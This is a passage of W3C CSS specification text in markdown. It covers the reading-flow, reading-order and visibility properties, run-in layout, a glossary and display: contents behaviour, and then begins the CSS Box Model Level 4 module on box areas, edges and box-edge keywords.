> **Note:** This is so that non-visual media and non-CSS UAs, which typically present content linearly, can rely on a logical source order, while `order` is used to tailor the layout order. (Since visual perception is two-dimensional and non-linear, the desired layout order is not always logical.)

In order to preserve the author’s intended ordering in all presentation modes, authoring tools—​including WYSIWYG editors as well as Web-based authoring aids—​must reorder the underlying document source and not use `order` to perform reordering unless the author has explicitly indicated that the spatial order should be *out-of-sync* with the underlying document order (which determines speech and navigation order).

> **Example:** For example, a tool might offer both drag-and-drop reordering of flex items as well as handling of media queries for alternate layouts per screen size range.
>
> Since most of the time, reordering should affect all screen ranges as well as navigation and speech order, the tool would perform drag-and-drop reordering at the DOM layer. In some cases, however, the author may want different layouts per screen size. The tool could offer this functionality by using `order` together with media queries, but also tie the smallest screen size’s ordering to the underlying DOM order (since this is most likely to be a logical linear presentation order) while using `order` to define the visual presentation order in other size ranges.
>
> This tool would be conformant, whereas a tool that only ever used `order` to handle drag-and-drop reordering (however convenient it might be to implement it that way) would be non-conformant.

> **Note:** User agents, including browsers, accessible technology, and extensions, may offer spatial navigation features. This section does not preclude respecting the `order` property when determining element ordering in such spatial navigation modes; indeed it would need to be considered for such a feature to work. But `order` is not the only (or even the primary) CSS property that would need to be considered for such a spatial navigation feature. A well-implemented spatial navigation feature would need to consider all the layout features of CSS that modify spatial relationships.

### 4.  Reading Order: the `reading-flow` property {#css-display-4:reading-flow}

A **reading flow container** is a block, flex or grid container with a valid `reading-flow` value other than `normal`.

The **rendering-defined sibling reading flow** of a reading flow container is an ordered list of the children of the container. All children must render to an element and are considered siblings in the reading flow container. The order is determined by the `reading-flow` property.

> **Issue:** Should this property also apply to tables? [[Issue #9922]](https://github.com/w3c/csswg-drafts/issues/9922)

| Field | Value |
| --- | --- |
| Name: | **reading-flow** |
| [Value:](#css-values-4:value-defs) | normal \| source-order \| flex-visual \| flex-flow \| grid-rows \| grid-columns \| grid-order |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | block, flex and grid containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

The `reading-flow` property controls the order in which elements are rendered to speech or are navigated to when using (linear) sequential navigation methods.

It takes one keyword value. Values are defined as follows:

****normal****

: Follow the order of elements in the DOM.

****source-order****

: Applies to grid, flex, and block layouts. Creates a reading flow container, and enables the use of the `reading-order` property on direct children. Other than respecting the `reading-order` property, follows the order of elements in the DOM.

****flex-visual****

: Only takes effect on flex containers. Follows the visual reading order of flex items, taking the writing mode into account. Therefore, a document in English, with `flex-direction: row-reverse` and `reading-flow: flex-visual` would have a reading order of left to right.

****flex-flow****

: Only takes effect on flex containers. Follows the `flex-flow` direction.

****grid-rows****

: Only takes effect on grid containers. Follows the visual order of grid items by row, taking the writing mode into account.

****grid-columns****

: Only takes effect on grid containers. Follows the visual order of grid items by column, taking the writing mode into account.

****grid-order****

: Only takes effect on grid containers. Follows the order-modified document order. Therefore, as `normal` unless the `order` property has been used to change the order of items.

> **Example:** In this example, there are three flex items displayed as a row, with `reading-flow: flex-visual` and `flex-direction: row-reverse`. We are in English with a text direction of left to right. The reading order of these items is therefore "Item 3", "Item 2", "Item 1", reading from left to right.
>
> ```markup
> <div class="wrapper">
>   <a href="#">Item 1</a>
>   <a href="#">Item 2</a>
>   <a href="#">Item 3</a>
> </div>
> ```
>
> ```css
> .wrapper {
>   display: flex;
>   flex-direction: row-reverse;
>   reading-flow: flex-visual;
> }
> ```

> **Example:** In this example there are four grid items, placed on a grid and displayed visually out of DOM order. The `reading-flow` property has a value of `grid-rows`, and the document is in English. The reading order of these items is therefore "Item 4", "Item 2", "Item 3", "Item 1".
>
> ```markup
> <div class="wrapper">
>   <a class="a" href="#">Item 1</a>
>   <a class="b" href="#">Item 2</a>
>   <a class="c" href="#">Item 3</a>
>   <a class="d" href="#">Item 4</a>
> </div>
> ```
>
> ```css
> .wrapper {
>   display: grid;
>   grid-template-columns: repeat(3, 150px);
>   grid-template-areas: "d b b"
>              "c c a";
>   reading-flow: grid-rows;
> }
>
> .a { grid-area: a; }
> .b { grid-area: b; }
> .c { grid-area: c; }
> .d { grid-area: d; }
> ```

The `reading-flow` property affects neither layout nor painting order and therefore has no effect on rendering to the visual canvas.

When using a `flex-*` or `grid-*` keyword value, the `order` property is taken into account.

> **Example:** In this example, there are three flex items displayed as a row, with `reading-flow: flex-flow`. The third item in the DOM has `order=-1`. The reading order of these items is therefore "Item 3", "Item 1", "Item 2".
>
> ```markup
> <div class="wrapper">
>   <a href="#">Item 1</a>
>   <a href="#">Item 2</a>
>   <a href="#">Item 3</a>
> </div>
> ```
>
> ```css
> .wrapper a:nth-child(3) {
>   order: -1;
> }
>
> .wrapper {
>   display: flex;
>   reading-flow: flex-flow;
> }
> ```

#### 4.1.  Overriding Reading Flow: the `reading-order` property {#css-display-4:reading-order}

| Field | Value |
| --- | --- |
| Name: | **reading-order** |
| [Value:](#css-values-4:value-defs) | `<integer>` |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | Direct block-level, grid item, or flex item children of a reading flow container. |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified integer |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

The `reading-order` property lets the author change where in the reading flow an item is visited, overriding the position set by the `reading-flow` property on its parent. It takes a single **`<integer>`** value, which specifies which ordinal group the item belongs to. Sibling elements are ordered starting from the lowest numbered ordinal group and going up.

If the reading order of two items is equivalent, the `reading-flow` property breaks the tie.

> **Example:** In this example there are six grid items, the `grid-auto-flow` property has a value of `dense`, therefore items may display out of source order. The `reading-order` property on the item with a class of `top` is `-1` Therefore Item 4 will be the first item in reading flow. The remaining items will be visited in the order they display in rows, as `reading-flow` has a value of `grid-rows`.
>
> ```markup
> <div class="wrapper">
>   <a href="#">Item 1</a>
>   <a href="#">Item 2</a>
>   <a href="#">Item 3</a>
>   <a class="top" href="#">Item 4</a>
>   <a href="#">Item 5</a>
>   <a href="#">Item 6</a>
> </div>
> ```
>
> ```css
> .wrapper {
>   display: grid;
>   grid-template-columns: repeat(3, 150px);
>   grid-auto-flow: dense;
>   reading-flow: grid-rows;
> }
>
> .top { reading-order: -1; }
> ```

> **Example:** In this example there are five direct block-level children of a block container where `reading-flow` has a value of `source-order`. The third item has a `reading-order` value of `-1`. The reading flow visits the third item first, then the rest in source order.
>
> ```markup
> <div class="wrapper">
>   <a href="#">Item 1</a>
>   <a href="#">Item 2</a>
>   <a href="#">Item 3</a>
>   <a href="#">Item 4</a>
>   <a href="#">Item 5</a>
> </div>
> ```
>
> ```css
> .wrapper { reading-flow: source-order; }
>
> .wrapper > a { display: block; }
>
> .wrapper a:nth-child(3){ reading-order: -1; }
> ```

**The source document should express the underlying logical order of elements. The `reading-flow` and `reading-order` properties exist for cases where a given document can have multiple reading orders depending on layout changes, e.g. in response to media queries. In such cases, the most common or most fundamental reading order should be encoded in the source order so that the document is sensical without CSS.**

> **Note:** Design Considerations and Background
>
> Some of the considerations that went into the design of `reading-flow` are:
>
> - There are clear use cases for disconnecting the reading and navigation order from the box layout order, the most fundamental of which is to make sure the reading and navigation order matches the **visual perception order** when it is not the same as the box layout order. (Visual perception is non-linear, and is influenced by things like the size, color contrast, and spacing of a visual element, not just its spatial coordinates on the page.)
> - It is a [core principle of Web platform architecture](https://www.w3.org/TR/webarch/#pci), in order to allow content to be accessible to the widest possible audience across devices that exist now and in the future, for the underlying document to be sensical independent of CSS. Therefore the underlying document order should represent a logical ordering of its elements regardless of its visual presentation.
> - For components of a page that do not have a strong inherent order, a document can have multiple visual presentations with different layouts, all conveying the same semantic information. It should be possible for all of these presentations to have good accessibility.
> - Linear navigation, focus sequencing order, and screen-reader order should always match, because there are users who use them together.
> - Each component or hierarchical level of a page can have different requirements for reordering, so CSS reordering controls should not lend themselves too easily to blanket use (like `box-sizing`) rather than tailored use (like [flow-relative vs. physical properties and values](#css-logical-1)).

> **Issue:** DOM needs a convenient reordering function so that authors (even authors who don’t usually write JS) can easily perform source order reordering when necessary instead of misusing `order` or `reading-flow`. [[Issue #7387]](https://github.com/w3c/csswg-drafts/issues/7387)

### 5.  Invisibility: the `visibility` property {#css-display-4:visibility}

| Field | Value |
| --- | --- |
| Name: | **visibility** |
| [Value:](#css-values-4:value-defs) | visible \| hidden \| force-hidden \| collapse |
| [Initial:](#css-cascade-6:initial-values) | visible |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

The `visibility` property specifies whether the box is rendered. Invisible boxes still affect layout. (Set the `display` property to `none` to suppress box generation altogether.). Values have the following meanings:

****visible****

: The generated box is visible, as normal.

****hidden****

: Any boxes generated by the element are invisible. Descendants of the element can, however, be visible if they have `visibility: visible`.

****force-hidden****

: Any boxes generated by the element *and its descendants* are invisible (regardless of their `visibility` value).

****collapse****

: Indicates that the box is **collapsed**, which can cause it to take up less space than otherwise in a formatting-context–specific way. See [dynamic row and column effects in tables](#css2:dynamic-effects) [CSS2] and [collapsed flex items](#css-flexbox-2:visibility-collapse) in flex layout [CSS-FLEXBOX-1]. In all other cases, however, (i.e. unless otherwise specified) this simply makes the box invisible, just like `hidden`.

> **Note:** Currently, many user agents and/or accessibility tools don’t correctly implement the accessibility implications of visible elements with semantic relationships to invisible elements, so, for example, making parent elements with special roles (such as table rows) invisible while leaving child elements with special roles (such as table cells) visible can be problematic for users of those tools. Authors should avoid creating these situations until the tooling situation improves.

**Invisible boxes** are not rendered (as if they were fully transparent), cannot be interacted with (and behave as if they had `pointer-events: none`), are removed from navigation (similar to `display: none`), and are also not rendered to speech (except when `speak` is `always` [CSS-SPEECH-1]). However, as with `display: contents`, their semantic role as a container is not affected, to ensure that any `visible` descendants are properly interpreted.

> **Note:** If `speak` is `always`, an otherwise invisible box *is* rendered to speech, and may be interacted with using non-visual/spatial methods.

> **Example:** While temporarily hiding things with `display: none` is often sufficient, doing so removes the elements from layout entirely, possibly causing unwanted movement or reflow of the page when an element is hidden or shown. `visibility: hidden` can instead be used to keep the page’s layout stable as something is hidden and displayed.
>
> For example, here is a (deliberately simplified) possible implementation of a "spoiler" element that can be revealed by clicking on the hidden text:
>
> ```
> <p>The symbolism earlier in the movie becomes obvious at the end,
>   when it's revealed that <spoiler-text><span>Luke is his own father</span></spoiler-text>,
>   making the wizard's cryptic riddles meaningful.
> <style>
> spoiler-text { border-bottom: 1px solid; }
> spoiler-text > span { visibility: hidden; }
> spoiler-text.shown > span { visibility: visible; }
> </style>
> <script>
> [...document.querySelectorAll("spoiler-text")].forEach(el=>{
>   el.addEventListener("click", e=>el.classList.toggle("shown"));
> });
> </script>
> ```
>
> **This example is deliberately significantly simplified. It is missing a number of accessibility and UX features that a well-designed spoiler element would have to show off the `visibility` usage more plainly. Don’t copy this code for a real site.**

### 6.  Run-In Layout {#css-display-4:run-in-layout}

A **run-in box** is a box that *merges into* a block that comes after it, inserting itself at the beginning of that block’s inline-level content. This is useful for formatting compact headlines, definitions, and other similar things, where the appropriate DOM structure is to have a headline preceding the following prose, but the desired display is an inline headline laying out with the text.

> **Example:** For example, dictionary definitions are often formatted so that the word is inline with the definition:
>
> ```
> <dl class='dict'>
>   <dt>dictionary
>   <dd>a book that lists the words of a language in alphabetical
>     order and gives their meaning, or that gives the equivalent
>     words in a different language.
>   <dt>glossary
>   <dd>an alphabetical list of terms or words found in or relating
>     to a specific subject, text, or dialect, with explanations; a
>     brief dictionary.
> </dl>
> <style>
> .dict > dt {
>   display: run-in;
> }
> .dict > dt::after {
>   content: ": "
> }
> </style>
> ```
>
> Which is formatted as:
>
> ```
> dictionary: a book that lists the words of a language
> in alphabetical order and explains their meaning.
>
> glossary: an alphabetical list of terms or words found
> in or relating to a specific subject, text, or dialect,
> with explanations; a brief dictionary.
> ```

A run-in box behaves exactly as any other inline-level box, except:

- A run-in box with a `flow` inner display type inlinifies its contents.
- If a run-in sequence is immediately followed by a block box that does not establish a new block formatting context, it is inserted as direct children of that block box: after its `::marker` pseudo-element’s boxes (if any), but preceding any other boxes generated by the contents of the block (including the box generated by the `::before` pseudo-element, if any). This re-parenting recurses if possible (so that the run-in effectively becomes part of the deepest subsequent “paragraph” in its formatting context, collecting newly-adjacent run-ins as it goes).

  The reparented content is then formatted as if originally parented there. Note that only layout is affected, not inheritance, because property inheritance for non-anonymous boxes is based only on the element tree.
- Otherwise (if the run-in sequence is *not* followed by such a block), an anonymous block box is generated around the run-in sequence and all immediately following inline-level content (up to, but not including, the next run-in sequence, if any).

A **run-in sequence** is a maximal sequence of consecutive sibling run-in boxes and intervening white space and/or out-of-flow boxes.

> **Note:** This statement implies that out-of-flow boxes are reparented if they are between two run-in boxes. Another alternative would be to leave behind the intervening out-of-flow boxes, or to have out-of-flow boxes impede the running-in of earlier boxes. Implementers and authors are encouraged to contact the CSSWG if they have a preferred behavior, as this one was picked somewhat at random.

This fixup occurs before the anonymous block and inline box fixup described in [CSS2§9.2](#css2:box-gen), and affects the determination of the first formatted line of the affected elements as if the run-in sequence were originally in its final location in the box tree.

> **Note:** As the earliest run-in represents the first text on the first formatted line of its containing block, a `::first-letter` pseudo-element applied to that block element selects the first letter of the run-in, rather than the first letter of its own contents.

> **Note:** This run-in model is slightly different from the one proposed in earlier revisions of [CSS2].

### Appendix A: Glossary {#css-display-4:glossary}

The following terms are defined here for convenience:

****root element****

: The element at the root of the document tree. In a document tree produced under the DOM, this is the document element; in HTML it is the `html` element. [DOM] [HTML]

****principal box****

: When an element generates one or more boxes, one of them is the principal box, which contains its descendant boxes and generated content, and is also the box involved in any positioning scheme.

  Some elements may generate additional boxes in addition to the principal box (such as `list-item` elements, which generate an additional marker box, or `table` elements, which generate a principal table wrapper box and an additional table grid box). These additional boxes are placed with respect to the principal box.

****inline-level****

: Content that participates in inline layout. Specifically, inline-level boxes and text sequences.

****block-level****

: Content that participates in block layout. Specifically, block-level boxes.

****inline box****

: A non-replaced inline-level box whose inner display type is `flow`. The contents of an inline box participate in the same inline formatting context as the inline box itself.

****inline****

: Used as a shorthand for inline box or inline-level box where unambiguous, or as an adjective meaning inline-level. The latter usage is deprecated.

****atomic inline****

: An inline-level box that is replaced (such as an image) or that establishes a new formatting context (such as an `inline-block` or `inline-table`) and cannot split across lines (as inline boxes and ruby containers can).

  Any inline-level box whose inner display type is not `flow` establishes a new formatting context of the specified inner display type.

****block container****

: A block container either contains only inline-level boxes participating in an inline formatting context, or contains only block-level boxes participating in a block formatting context (possibly generating anonymous block boxes to ensure this constraint, as defined in [CSS2§9.2.1.1](#css2:anonymous-block-level)).

  A block container that contains only inline-level content establishes a new inline formatting context. The element then also generates a root inline box which wraps all of its inline content. Note, this root inline box concept effectively replaces the "anonymous inline element" concept introduced in [CSS2§9.2.2.1](#css2:anonymous).

  A block container establishes a new block formatting context if its parent formatting context is *not* a block formatting context; otherwise, when participating in a block formatting context itself, it either establishes a new block formatting context for its contents or continues the one in which it participates, as determined by the constraints of other properties (such as `overflow` or `align-content`).

  > **Note:** A block container box can both establish a block formatting context *and* an inline formatting context simultaneously.

****block box****

: A block-level box that is also a block container.

  > **Note:** Not all block container boxes are block-level boxes: non-replaced inline blocks and non-replaced table cells, for example, are block containers but not block-level boxes. Similarly, not all block-level boxes are block containers: block-level replaced elements (`display: block`) and flex containers (`display: flex`), for example, are not block containers.

****block****

: Used as a shorthand for block box, block-level box, or block container box, where unambiguous.

****replaced element****

: An element whose content is outside the scope of the CSS formatting model, such as an image or embedded document.  For example, the content of the HTML `img` element is often replaced by the image that its `src` attribute designates.

  Replaced elements often have natural dimensions. For example, a bitmap image has a natural width and a natural height specified in absolute units (from which the natural ratio can obviously be determined). On the other hand, other objects may not have any natural dimensions (for example, a blank HTML document). See [css-images-3].

  User agents may consider a replaced element to not have any natural dimensions if it is believed that those dimensions could leak sensitive information to a third party. For example, if an HTML document changed natural size depending on the user’s bank balance, then the UA might want to act as if that resource had no natural dimensions.

  The content of replaced elements is not considered in the CSS formatting model; however, their natural dimensions are used in various layout calculations. Replaced elements always establish an independent formatting context.

  A **non-replaced** element is one that is not replaced, i.e. whose rendering is dictated by the CSS model.

****containing block****

: A rectangle that forms the basis of sizing and positioning for the boxes associated with it. Notably, a containing block is *not a box* (it is a rectangle), however it is often derived from the dimensions of a box. Each box is given a position with respect to its containing block, but it is not confined by this containing block; it can overflow. The phrase “a box’s containing block” means “the containing block in which the box lives,” not the one it generates.

  In general, the edges of a box act as the containing block for descendant boxes; we say that a box “establishes” the containing block for its descendants. If properties of a containing block are referenced, they reference the values on the box that generated the containing block. (For the initial containing block, values are taken from the root element unless otherwise specified.)

  See [CSS2] [Section 9.1.2](#css2:containing-block) and [Section 10.1](#css2:containing-block-details) and [CSS Positioned Layout 3 § 2.1 Containing Blocks of Positioned Boxes](#css-position-3:def-cb) for details.

****containing block chain****

: A sequence of successive containing blocks that form an ancestor-descendant chain through the containing block relation. For example, an inline box’s containing block is the content box of its closest block container ancestor; if that block container is an in-flow block, then *its* containing block is formed by its parent block container; if that grandparent block container is absolutely positioned, then *its* containing block is the padding edges of its closest *positioned* ancestor (not necessarily its parent), and so on up to the initial containing block.

****initial containing block****

: The containing block of the root element. The initial containing block establishes a block formatting context. See [CSS2.1§10.1](#css2:containing-block-details) for continuous media; and [CSS-PAGE-3] for paged media for its position and dimensions.

****formatting context****

: A formatting context is the environment into which a set of related boxes are laid out. Different formatting contexts lay out their boxes according to different rules. For example, a flex formatting context lays out boxes according to the flex layout rules [CSS-FLEXBOX-1], whereas a block formatting context lays out boxes according to the block-and-inline layout rules [CSS2]. Additionally, some types of formatting contexts interleave and co-exist: for example, an inline formatting context exists within and interacts with the block formatting context of the element that establishes it, and a ruby container overlays a ruby formatting context over the inline formatting context in which its ruby base container participates.

  A box either establishes a new independent formatting context or continues the formatting context of its containing block. In some cases, it might additionally establish a new (non-independent) co-existing formatting context. Unless otherwise specified, however, establishing a new formatting context creates an independent formatting context. The type of formatting context established by the box is determined by its inner display type. E.g. a grid container establishes a new grid formatting context, a ruby container establishes a new ruby formatting context, and a block container can establish a new block formatting context and/or a new inline formatting context. See the `display` property.

****independent formatting context****

: When a box establishes an independent formatting context (whether that formatting context is of the same type as its parent or not), it essentially creates a new, independent layout environment: except through the sizing of the box itself, the layout of its descendants is (generally) not affected by the rules and contents of the formatting context outside the box, and vice versa.

  > **Example:** For example, in a block formatting context, floated boxes affect the layout of surrounding boxes. But their effects do not escape their formatting context: the box establishing their formatting context grows to fully contain them, and floats from outside that box are not allowed to protrude into and affect the contents inside the box.

  > **Example:** As another example, margins do not collapse across formatting context boundaries.

  > **Note:** Exclusions are able to affect content across independent formatting context boundaries. (At time of writing, they are the only layout feature that can.) [CSS3-EXCLUSIONS]

  Certain properties can force a box to  **establish an independent formatting context** in cases where it wouldn’t ordinarily. For example, making a box out-of-flow causes it to blockify as well as to establish an independent formatting context. As another example, certain values of the `contain` property can cause a box to establish an independent formatting context. Turning a block into a scroll container will cause it to establish an independent formatting context; however turning a subgrid into a scroll container will not—​it continues to act as a subgrid, with its contents participating in the layout of its parent grid container.

  A block box that establishes an independent formatting context establishes a new block formatting context for its contents. In most other cases, forcing a box to establish an independent formatting context is a no-op—​either the box already establishes an independent formatting context (e.g. flex containers), or it’s not possible to establish a totally independent new formatting context on that type of box (e.g. non-replaced inline boxes).

****block formatting context** **inline formatting context****

: Block and inline formatting contexts are defined in [CSS 2.1 Section 9.4](#css2:normal-flow). Inline formatting contexts exist within (are part of their containing) block formatting contexts; for example, line boxes belonging to the inline formatting context interact with floats belonging to the block formatting context.

****block layout****

: The layout of block-level boxes, performed within a block formatting context.

****block formatting context root****

: A block container that establishes a new block formatting context.

****BFC****

: Abbreviation for block formatting context or block formatting context root. Has various informal definitions referring to boxes which contain internal floats, exclude external floats, and suppress margin collapsing, and may therefore refer specifically to one of:

  - a block container that establishes a new block formatting context for its contents
  - a block box (i.e. a block-level block container) that establishes a block formatting context for its contents (as distinguished from a block box which does not)
  - (very loosely) any block-level box that establishes a new formatting context (other than an inline formatting context)

****out-of-flow** **in-flow****

: A box is out-of-flow if it is extracted from its expected position and interaction with surrounding content and laid out using a different paradigm outside the normal flow of content in its parent formatting context. This occurs if the box is floated (via `float`) or absolutely positioned (via `position`). A box is in-flow if it is not out-of-flow.

  > **Note:** Some formatting contexts inhibit floating, so that an element with `float: left` is not necessarily out-of-flow.

****document order****

: The order in which boxes or content occurs in the document (which can be different from the order in which it appears for rendering). For the purpose of determining the relative order of pseudo-elements, the box-tree order is used, see [CSS Pseudo-Elements 4 § 4 Tree-Abiding Pseudo-elements](#css-pseudo-4:treelike).

See [CSS2] [Chapter 9](#css2) for a fuller definition of these terms.

### Appendix B: Effects of `display: contents` on Unusual Elements {#css-display-4:unbox}

*This section is (currently) non-normative.*

Some elements aren’t rendered purely by CSS box concepts; for example, replaced elements (such as `img`), many form controls (such as `input`), and SVG elements.

This appendix defines how they interact with `display: contents`.

#### HTML Elements {#css-display-4:unbox-html}

**`br` `wbr` `meter` `progress` `canvas` `embed` `object` `audio` `iframe` `img` `video` `frame` `frameset` `input` `textarea` `select`**

: `display: contents` computes to `display: none`.

**`legend`**

: Per HTML, a `legend` with `display: contents` is not a rendered legend, so it does not have magical display behavior. (Thus, it reacts to `display: contents` normally.)

**`button` `details` `fieldset`**

: These elements don’t have any special behavior; `display: contents` simply removes their principal box, and their contents render as normal.

**any other HTML element**

: Behaves as normal for `display: contents`.

#### SVG Elements {#css-display-4:unbox-svg}

**An `svg` element that has CSS box layout (this includes all `svg` whose parent is an HTML element, as well as document root elements)**

: `display: contents` computes to `display: none`.

**All other SVG container elements that are also renderable elements SVG text content child elements `use`**

: `display: contents` strips the element from the formatting tree, and hoists its contents up to display in its place. These contents include the shadow-DOM content for `use`.

**any other SVG elements**

: `display: contents` computes to `display: none`.

> **Note:** The intention here is that the `display: none` behavior applies whenever the "rendering context" inside the element is different than the context outside of it. If the element’s child elements would not be valid children of the element’s parent, you cannot simply hoist them up the formatting tree.
>
> For example, text content and text formatting elements in SVG require a `text` element context; if you remove a `text`, its child text content and elements are no longer valid. For that reason, `display: contents` on `text` prevents the entire text element from being rendered. In contrast, any valid content inside a `tspan` or `textPath` is also valid content inside the parent text formatting context, so the hoisting behavior applies for these elements.
>
> Similarly, if hoisting would convert the children from non-rendered elements (e.g., a shape inside a `pattern` or `symbol`) to rendered elements (e.g., a shape that is a direct child of the `svg`), that is an invalid change of rendering context. Never-rendered container elements therefore cannot be "un-boxed" by `display: contents`.

When an element is stripped from the formatting tree, then any SVG attributes on that element that control layout and visual formatting are ignored when rendering the contents. However, SVG presentation attributes—​which map to CSS properties—​continue to affect value processing and inheritance [CSS-CASCADE-3]; thus such attributes can affect the layout and visual formatting of the element’s descendants by influencing the values of such properties on those descendants.

#### MathML Elements {#css-display-4:unbox-mathml}

For all MathML elements, `display: contents` computes to `display: none`.

### Appendix C: Box Construction Guidelines for Spec Authors {#css-display-4:box-guidelines}

*This section is non-normative guidance for specification authors.*

- A box cannot be blockified and inlinified at the same time; if such a thing would occur, define which wins over the other.
- Non-principal non-anonymous boxes can’t be blockified: blockification affects the element’s computed values and thus determines the type of its principal box.
- Boxes which blockify their contents can’t directly contain inline-level content; any boxes or text sequences generated within such an element must be blockified or wrapped in an anonymous block container.
- Boxes which inlinify their contents can’t directly contain block-level boxes; any boxes generated within such an element must be inline-level.
- Boxes that fundamentally cannot establish an independent formatting context (such as non-replaced inlines) must not be asked to establish an independent formatting context. Blockify them first, or otherwise change their box type to one that can establish an independent formatting context.

---

## CSS Box Model Module Level 4 {#css-box-4}

- **Shortname:** `css-box-4`
- **Editor's Draft:** [https://drafts.csswg.org/css-box-4/](https://drafts.csswg.org/css-box-4/)
- **Published TR:** [https://www.w3.org/TR/css-box-4/](https://www.w3.org/TR/css-box-4/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-08-06

### 1. Introduction {#css-box-4:intro}

*This subsection is not normative.*

CSS describes how each element and each string of text in a source document is laid out by transforming the element tree into a set of boxes, whose size, position, and stacking level on the canvas depend on the values of their CSS properties.

> **Note:** [CSS Cascading and Inheritance](#css-cascade-6) describes how properties are assigned to elements in the box tree, while [CSS Display 3 § 1 Introduction](#css-display-4:intro) describes how the element tree is transformed into the box tree.

Each CSS box has a rectangular content area, a band of padding around the content, a border around the padding, and a margin outside the border. The sizing properties [css-sizing-3], together with various other properties that control layout, define the size of the content area. The box styling properties—​`padding` and its longhands, `border` and its longhands, and `margin` and its longhands—​define the sizes of these other areas. Margins and padding are defined in this module; borders are defined in [css-backgrounds-3].

> **Note:** This module [originally contained](https://www.w3.org/TR/2018/WD-css3-box-20180731/) the CSS Level 3 specification prose relating to box generation (now defined in [css-display-3]), the box model (defined here), as well as block layout (now only defined in [CSS2] Chapters 9 and 10). Since its maintenance was put aside during the development of CSS2.1, its prose was severely outdated by the time CSS2 Revision 1 was finally completed. Therefore, the block layout portion of the prose has been retired, to be re-synched to [CSS2](#css2) and updated as input to a new Block Layout module at some point in the future. It is being split apart from this module and from the [CSS Display Module](#css-display-4) both because of the practical concern that it would be a huge amount of work and also in recognition that CSS now has multiple layout models ([Flex Layout](#css-flexbox-2), [Grid Layout](#css-grid-2), [Positioned Layout](#css-position-4), and [Table Layout](#css-tables-3), in addition to Block Layout) which each deserve their own parallel module.

#### 1.1.  Value Definitions {#css-box-4:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

#### 1.2.  Module Interactions {#css-box-4:placement}

This module replaces the definitions of the margin and padding properties defined in [CSS2] sections 8.1, 8.2, 8.3 (but not 8.3.1), and 8.4.

All properties in this module apply to the `::first-line` and `::first-letter` pseudo-elements.

### 2. The CSS Box Model {#css-box-4:box-model}

Each box has a **content area** (which contains its content—​text, descendant boxes, an image or other replaced element content, etc.) and optional surrounding **padding**, **border**, and **margin areas**; the size of each area is specified by corresponding properties, and can be zero (or in the case of margins, negative). The following diagram shows how these areas relate and the terminology used to refer to the various parts of the box:



The various areas and edges of a typical box.

The background of the content, padding, and border areas of a box is specified by its `background` properties. The border area can additionally be painted with a border style using the `border` properties. Margins are always transparent. See [css-backgrounds-3].

The margin, border, and padding can be broken down into top, right, bottom, and left segments, each of which can be controlled independently by its corresponding property.

#### 2.1. Boxes and Edges {#css-box-4:box-edges}

The perimeter of each of the four areas (content, padding, border, and margin) is called an **edge**, and each edge can be broken down into a top, right, bottom, and left side. Thus each box has four edges each composed of four sides:

****content edge** or **inner edge****

: The content edge surrounds the rectangle given by the width and height of the box, which often depend on the element’s content and/or its containing block size. The four sides of the content edge together define the box’s **content box**.

****padding edge****

: The padding edge surrounds the box’s padding. If the padding has zero width on a given side, the padding edge coincides with the content edge on that side. The four sides of the padding edge together define the box’s **padding box**, which contains both the content and padding areas.

****border edge****

: The border edge surrounds the box’s border. If the border has zero width on a given side, the border edge coincides with the padding edge on that side. The four sides of the border edge together define the box’s **border box**, which contains the box’s content, padding, and border areas.

****margin edge** or **outer edge****

: The margin edge surrounds the box’s margin. If the margin has zero width on a given side, the margin edge coincides with the border edge on that side. The four sides of the margin edge together define the box’s **margin box**, which contains the all of the box’s content, padding, border, and margin areas.

Properties like `border-radius` can change the shape of the box’s edges as used for painting and clipping (see [CSS Backgrounds 3 § 4.3 Corner Clipping](#css-borders-4:corner-clipping)); these effects typically do not affect layout however. To distinguish, specifications can refer to the relevant **shaped edge** or **unshaped edge**

#### 2.2. Fragmentation {#css-box-4:fragmentation}

When a box [fragments](#css-break-4:fragmentation-model)—​is broken, as across lines or across pages, into separate box fragments—​each of its boxes (content box, padding box, border box, margin box) also fragments. How the content/padding/border/margin areas react to fragmentation is specified in [css-break-4] and controlled by the `box-decoration-break` property.

#### 2.3. Box-edge Keywords {#css-box-4:keywords}

The following **`<box>`** CSS keywords are defined for use in properties (such as `transform-box` and `background-clip`) that need to refer to various box edges:

****content-box****

: Refers to the content box or content edge. (In an SVG context, treated as `fill-box`.)

****padding-box****

: Refers to the padding box or padding edge. (In an SVG context, treated as `fill-box`.)

****border-box****

: Refers to the border box or border edge. (In an SVG context, treated as `stroke-box`.)

****margin-box****

: Refers to the margin box or margin edge. (In an SVG context, treated as `stroke-box`.)

****fill-box****

: Refers to the object bounding box or its edges. (In a CSS box context, treated as `content-box`.)

****stroke-box****

: Refers to the stroke bounding box or its edges. (In a CSS box context, treated as `border-box`.)

****view-box****

